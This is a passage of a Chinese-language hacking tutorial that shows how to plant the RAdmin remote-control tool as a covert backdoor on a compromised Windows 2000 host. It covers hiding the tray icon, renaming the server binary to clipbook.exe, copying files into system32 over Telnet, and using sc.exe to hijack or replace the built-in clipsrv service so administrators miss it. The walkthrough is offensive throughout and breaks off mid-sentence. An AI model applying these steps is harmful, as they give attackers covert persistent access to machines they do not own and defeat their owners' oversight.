

RAdmin 默认的连接端口是 4899，我们可以修改成想要的端口号。不选 “Use default port” 然后填入其他端口号，例如我在这里填 23456 端口。在设置端口号的右边，我们将 “Hide tray icon” 前面的框选上，这个开关是设置是否要在服务端的状态栏显示 RAdmin 安装的图标，如果不选，会在状态栏出现如图 4 那个带 R 的图标。





这个选项非常重要，这也是很多人选用 RAdmin 作为后门的原因，所以我们要将这个选项选上。其他的，我们不用理会，按默认即可。这样我们配置出来后的结果便如图 5 所示。

配置完服务端的设置后，由于我们需要在“肉鸡”上安装服务端，为安装方便，我们打开注册表，并找到 HKEY_LOCAL_MACHINE\SYSTEM\RAdmin 子键，如图 6 所示。



将其内容导出，在要安装服务端的机器上，将其导入，即完成对服务端相同的配置信息，只须在服务端安装了。





上面我们已经说了，RAdmin 服务端默认安装完成后会在系统服务列表增加一项“Remote Administrator Service”的服务，并且在系统进程中增加一项“r_server”进程，这个很容易被对方管理员发现。现在我利用 RAdmin 来给大家演示一下如何给目标机器留下后门并替换现有服务来达到隐藏所装服务的目的。

Let's go!

已复制的文件的作用如下：两个 dll 文件是 radmin 服务端运行时可能要用到的文件，为避免在对方机器上安装时因为缺少文件而弹出对话框，这个尴尬情况，我们也将它复制上去；clipbook.exe 是我将 RAdmin 的服务端 r_server.exe 更名而来的，如果不更改，服务端安装完成后会在进程列表处多出一个 r_server 进程，而更名后则会多出一个 clipbook 进程，后者要比前者更不会引起管理员注意，所以更名，当然，你也可以改成其他不易引起他人注意的名字；而 radmin.reg 是我们刚才配置完服务端后导出来的注册表文件；r_server.reg 等一下我再介绍；sc.exe 是 win 下 Resource kit 下的一个工具，等一下我们要用到。



上面我们已经将所需文件复制到目标机器，现在我们 Telnet 到对方的机器上继续我们的工作（如何 Telnet 到对方机器这里不做介绍）。

我们成功地连接到一台 Windows 2000 的机器，并将所需文件 Copy 到对方的 admin$\system32 文件夹下，该文件夹是系统文件的默认存放位置且这里的文件非常多，容易隐藏。

假设我们已取得某台 Windows 2000 主机的 admin 权限，现在我们来试着以服务替换的方式隐藏我们在目标机器上安装 RAdmin 服务。我们用系统自带的“clipsrv”（服务列表显示是 clipbook 服务，它在注册表及调用的文件都是 clipsrv，为避免和下面的文件混在一起，以下将一直用 clipsrv 来说这个服务）来替换。该服务是 Windows 2000 自带的服务（NT、XP 我没有用过，所以不知是否有该服务），安装完成后自动启动，但它不是系统必须的，这正是我们需要的。现在我们就拿它来开刀（clipsrv 大叫：为什么偏偏选中我）。

如果我们不替换系统的服务，也就是用 RAdmin 服务端自带的安装，那我们现在接着输入 clipbook/install 即可完成安装。但现在我们不打算这样做，我们要替换 clipsrv 服务。要替换该服务，这里把它分成完全替换和数值替换。安全替换就是将原有服务完全删除后重新建立一个服务，并将其在服务列表的名称改成跟原来的一样；数值替换就是只修改该服务中某个键值，达到偷梁换柱的目的。相对而言数值替换要简单一些。但不管采用哪一种方法，都必须停止该服务。

现在我们 Telnet 到目标机器并将 radmin.reg 导入对方注册表，如图 8 所示。

我们先用数值替换，将 clipsrv 服务运行调用到的程序改成 RAdmin 服务端运行的程序，我们利用 sc.exe 在 cmd 下修改。我们先查询 clipsrv 服务的状况，如图 9 所示。

图 9 显示出 clipsrv 服务的状态跟系统默认的一样，都是自动启动且已启动。我们停止该服务并开始修改 clipsrv 服务调用程序的文件名，如图 10 所示。



由图 10 可以看出，我们已经停止该服务并成功修改 clipsrv 服务（sc 直接调用的是服务的函数，所以要用 sc 修改该服务不能用 clipbook，必须用 clipsrv）调用程序的值，也就是 RAdmin 服务端程序。而 clipbook.exe 后面的 /service 是 RAdmin 服务端运行时的参数，一定要加上。



现在 RAdmin 服务端已成功替换，但还没有启动，我们可以用 sc 来启动，如图 11 所示。

现在我们在目标机器上已成功将 RAdmin 服务端程序植入 clipsrv 服务中了，由于该服务是系统自带且为自动启动，如果不仔细检查，还真的没法看出来。



不过用上面的替换方法后，可能是由于 RAdmin 的原因吧，RAdmin 的“full control”、“view only”两个功能都无法用（我在我的机器上没有成功过，哪位高手知道原因）：“full control”一旦连接成功，将会和对方产生一个交互式登录的会话，能够操作、查看对方机器，跟本地操作一样。当然，你所做的操作对方也能看到。“view only”和“full control”的区别在于前者只能看对方操作而不能做任何事情。

既然能够和对方产生一个交互式登录，我们一定要想办法弄到，现在让我们来看看完全替换法。

这里说的完全替换法，实质上就是做一个在服务列表中完全一样的服务。用完全替换，我们必须先将原服务删除或更名。我们仍以 clipsrv 服务为例来做实验（此时 clipsrv 一脸无奈。Sorry! Clipsrv，你就怀着“我不入地狱谁入地狱”的心态来为大家服务吧）。



如图 12 所示，我们先将 clipsrv 服务停止，然后再删除该服务。接着我们将更改后的 RAdmin 的服务端 clipbook.exe 安装上。RAdmin 服务端不管改成什么名称，在安装完成后都会在服务列表增加一项“Remote Administrator Service”服务。默认是自动启动的。现在我们给“Remote Administrator Service”增加服务描述及更名。由于我们要替换的是 clipsrv 服务，所以我们也引用该服务默认的描述，使它更不易发现，如图 13 所示。

我们导入了 r_server.reg 文件，r_server.reg 是从“clipsrv”服务的描述导出来的，是为“Remote Administrator Service”增加描述的文件，如果你想改成别的，也可以用 sc 修改。r_server.reg 内容非常简单，如图 14 所示。



现在我们将“Remote Administrator Service”服务显示的名称改成“clipbook”，如图 15 所示。



哦，对了，服务列表显示的名称首字母都是大写的，你也跟着大写吧，我是在我的机器上测试的，测试的时候忘了。接下来我们可以启动该服务。



好了，我们在目标机器上做了这么多工作，服务端现在是个什么个样呢？我们连接到对方机器并打开服务查看服务列表显示名称为“cl